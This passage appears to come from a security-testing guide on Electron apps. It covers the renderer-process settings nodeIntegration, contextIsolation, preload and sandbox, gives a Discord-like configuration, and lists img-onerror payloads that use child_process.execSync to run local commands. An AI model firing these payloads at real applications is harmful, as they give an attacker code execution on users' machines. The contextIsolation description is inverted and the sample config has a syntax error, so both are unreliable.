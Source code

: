 A **renderer process** will be a browser window loading a file:

```javascript
const {BrowserWindow} = require('electron');
let win = new BrowserWindow();

//Open Renderer Process
win.loadURL(`file://path/to/index.html`);
```

Settings of the **renderer process** can be **configured** in the **main process** inside the main.js file. Some of the configurations will **prevent the Electron application to get RCE** or other vulnerabilities if the **settings are correctly configured**.

The desktop application might have access to the user’s device through Node APIs. The following two configurations are responsible for providing mechanisms to **prevent the application JavaScript from having direct access to the user’s device** and system level commands.

* **`nodeIntegration`** - is `off` by default. If on, allows to access node features from the renderer process.
* **`contextIsolation`** - is `on` by default. If on, main and renderer processes aren't isolated.
* **`preload`** - empty by default.
* [**`sandbox`**](https://docs.w3cub.com/electron/api/sandbox-option) - is off by default. It will restrict the actions NodeJS can perform.

Example of configuration:

```javascript
const mainWindowOptions = {
  title: 'Discord',
  backgroundColor: getBackgroundColor(),
  width: DEFAULT_WIDTH,
  height: DEFAULT_HEIGHT,
  minWidth: MIN_WIDTH,
  minHeight: MIN_HEIGHT,
  transparent: false,
  frame: false,
  resizable: true,
  show: isVisible,
  webPreferences: {
    blinkFeatures: 'EnumerateDevices,AudioOutputDevices',
    nodeIntegration: false,
    contextIsolation: false
    preload: _path2.default.join(__dirname, 'mainScreenPreload.js'),
    nativeWindowOpen: true,
    enableRemoteModule: false,
    spellcheck: true
  }
};
```

Some **RCE payloads** from [here](https://7as.es/electron/nodeIntegration\_rce.txt):

```html
Example Payloads (Windows):
<img src=x onerror="alert(require('child_process').execSync('calc').toString());"> 

Example Payloads (Linux & MacOS):
<img src=x onerror="alert(require('child_process').execSync('gnome-calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator').toString());"> 
<img src=x onerror="alert(require('child_process').execSync('id').toString());"> 
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
<img src=x onerror="alert(require('child_process').execSync('uname -a').toString());"> 
```
